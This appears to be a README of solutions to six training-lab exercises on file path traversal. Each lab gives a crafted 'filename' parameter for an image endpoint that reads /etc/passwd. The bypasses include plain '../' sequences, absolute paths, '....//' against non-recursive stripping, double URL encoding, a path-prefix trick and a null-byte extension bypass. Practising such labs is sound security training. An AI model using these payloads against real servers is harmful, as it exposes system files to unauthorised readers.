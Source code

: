 <div align='center'>

# **Directory Traversal**

</div>

## **Lab 1:** File path traversal, simple case

**Solution:** Go to endpoint '/image?filename=../../../../../../../../../../etc/passwd' to read the content of the file

**Solution script:** [Lab1.py](./Lab1.py)

## **Lab 2:** File path traversal, traversal sequences blocked with absolute path bypass

**Solution:** Go to endpoint '/image?filename=/etc/passwd' to read the content of the file

**Solution script:** [Lab2.py](./Lab2.py)

## **Lab 3:** File path traversal, traversal sequences stripped non-recursively

**Solution:** Go to endpoint '/image?filename=....//....//....//....//....//....//....//....//....//....//etc/passwd' to read the content of the file

**Solution script:** [Lab3.py](./Lab3.py)

## **Lab 4:** File path traversal, traversal sequences stripped with superfluous URL-decode

**Solution:** Go to endpoint '/image?filename=../../../../../../../../../../etc/passwd' (the value of the filename parameter have to be URL Encoded two times) to read the content of the file

**Solution script:** [Lab4.py](./Lab4.py)

## **Lab 5:** File path traversal, validation of start of path

**Solution:** Go to endpoint '/image?filename=/var/www/images/../../../etc/passwd' to read the content of the file

**Solution script:** [Lab5.py](./Lab5.py)

## **Lab 6:** File path traversal, validation of file extension with null byte bypass

**Solution:** Go to endpoint '/image?filename=../../../etc/passwd%00.png' to read the content of the file

**Solution script:** [Lab6.py](./Lab6.py)
